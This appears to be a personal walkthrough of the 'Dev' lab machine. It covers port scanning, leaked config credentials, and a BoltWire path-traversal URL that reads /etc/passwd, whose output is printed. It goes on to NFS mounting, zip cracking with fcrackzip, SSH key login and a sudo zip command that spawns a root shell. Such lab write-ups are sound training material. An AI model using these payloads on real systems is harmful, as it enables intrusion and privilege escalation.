



# Dev

## Scanning/Enumeration

1. Scanned open ports.

   `nmap -T4 -p- -A 192.168.64.23`

   `-T4` is to speed up the scan by reducing delays

   `-p-` is to tell nmap to scan all 65,535 TCP ports

   `-A` is to enable nmap a comprehensive scan including os detection, version detection and script scanning.

   

   

   According to the nmap scan, I found interesting things that there are two http services and nfs (network file system). In this time, I had a chance to search about nfs. It was interesting.

   NFS is a protocol for file sharing. I was confused about the differences between FTP(20 or 21) and NFS(2049). Here is the differences I found.

   NFS is designed to allow multiple local clients to share directories and files from a central server. It is suitable for scenarios requiring centralized storage, consistent access to files, and efficient management of shared resources for multiple clients. Administrators can manage files and permissions centrally, simplifying maintenance and backups.

    from Huawei

   FTP(20 or 21) is designed to transfer large files between a client and a server. Basic FTP does not encrypt data. However secure version like FTPS and SFTP provide encryption for data in transit. FPT is commonly used for website management, software distribution, and exchanging files with external parties.

    from CISCO

   Additionally, RPC(Remote Procedure Call) is a protocol that allows a program to request a service from a server program in a network. APIs can utilize RPC as a communication mechanism to enable remote clients to invoke functions or procedures exposed by the API. For example, when a client calls this endpoint `/weather/forecast`, the API service can use RPC to fetch the forecast data from a remote weather service and then return it to the client. For further information, REST API and RPC API have different architectures.

   The picture below is for the transport process of RPC over HTTP

    from microsoft Learn

   Noted information

   `22/tcp	open  ssh  	OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)`

   `80/tcp	open  http 	Apache httpd 2.4.38 ((Debian))`

   `111/tcp   open  rpcbind  2-4 (RPC #100000)`

   `2049/tcp  open  nfs  	3-4 (RPC #100003)`

   `8080/tcp  open  http 	Apache httpd 2.4.38 ((Debian))`

2. Found hidden directories of the HTTP websites (80 and 8080)

   This result was from the port 80.

   

   `/app`,`/extensions`, `/public`, `/src`, and `/vendor` pages were founded

   

   

   

   

   

   When developing a website, I typically store confidential settings in a configuration file. Hence I visited the `/config/` directory.

   

   

   I found a clue about username and password

   - username : **bolt**
   - password : **I_love_java**

   I could feel how much the bolt user loves java.

   This result was from the port 8080.

   

   `/dev` was founded

   

   bolt cms page was founded.

   

3. I thought there are cms vulnerabilities for sure, so that I searched which vulnerabilities this cms - boltWire has.

   

   

   Since `6.03 - Local file inclusion` came as the first searching result. I decided †o exploit this vulnerability at first.

   

   

   To begin with, I registered as a user 123 and then logged in.

   

   And then accessed `/passwd` file inputting `http://192.168.64.23:8080/dev/index.php?p=action.search&action=../../../../../../../etc/passwd`

   

   

   There are user account information. It does not store actual passwords, `/etc/shadow` will store the actual password. However I could know usernames that this website have.

   ```
   root:x:0:0:root:/root:/bin/bash
   daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
   bin:x:2:2:bin:/bin:/usr/sbin/nologin
   sys:x:3:3:sys:/dev:/usr/sbin/nologin
   sync:x:4:65534:sync:/bin:/bin/sync
   games:x:5:60:games:/usr/games:/usr/sbin/nologin
   man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
   lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
   mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
   news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
   uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
   proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
   www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
   backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
   list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
   irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
   gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
   nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
   _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
   systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
   systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
   systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
   messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
   sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
   jeanpaul:x:1000:1000:jeanpaul,,,:/home/jeanpaul:/bin/bash
   systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
   mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false
   _rpc:x:107:65534::/run/rpcbind:/usr/sbin/nologin
   statd:x:108:65534::/var/lib/nfs:/usr/sbin/nologin
   ```

   As `/usr/sbin/nologin` means that the account is not available to login, only `root` and `jeanpaul` are the available usernames I can utilize to get a shell.

   Furthermore, I exploit this vulnerability in a different way.

   

   

   

   With the revised url address - `http://192.168.64.23:8080/dev/index.php?p=member.admin&action=data`. I could get the admin's password.

   - member.admin : **I_love_java**

   

   So I tried to access ssh with these information I collected so far.

   

   Failed to get access to the ssh....

4. Let's enumerate `nfs` protocol to explore the services and data accessible via NFS.

   I used `showmount` command to list all NFS shares.

   

   I could see that `/srv/nfs` was shared. So that I attempted to mount the identified share locally on my system.

   

   

   There was a `save.zip` file. However I did not know the id_rsa password.

   Let's try to crack the password using `fcrackzip`

   

   

   The password for the zip file was java101

   Unzipped the file and then which files were included.

   

   

   I could guess that jeanpual will be admin user and its password can be `I_love_java` and then checked the `id_rsa` file.

   

   It was the private key to get access the ssh. So that I decided to use this private key to the ssh using `jeanpaul` username.

## Exploitation

1. Exploited the information I enumerated so far in order to get a remote shell and then root privilege.

   I entered the `I_love_java` for the passphrase.

   

   Tried to see the password of root user and then escalate privilege using `sudo -l` command.

   

   I needed to use `/usr/bin/zip` to go up to root privilege.

   I leveraged `gfobins` to get information about how can I use the `zip`.

   

   

   

   Copied and pasted the command lines to escalate privileged access.

   `TF=$(mktemp -u)`

   `sudo zip $TF /etc/hosts -T -TT 'sh #'`

   `sudo rm $TF`

   
